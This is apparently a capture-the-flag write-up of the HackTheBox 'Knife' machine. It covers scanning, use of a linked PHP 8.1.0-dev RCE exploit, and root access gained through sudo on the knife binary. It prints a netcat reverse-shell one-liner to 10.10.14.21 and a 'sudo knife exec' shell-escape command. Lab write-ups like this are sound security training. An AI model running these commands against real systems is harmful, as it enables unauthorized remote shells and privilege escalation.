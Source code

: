 # Knife HackTheBox Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).

![](3.png)


## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: [https://www.exploit-db.com/raw/49933](https://www.exploit-db.com/raw/49933)

![](4.png)

We read *user.txt* file:

![](5.png)

## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.

![](6.png)

We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".

![](7.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
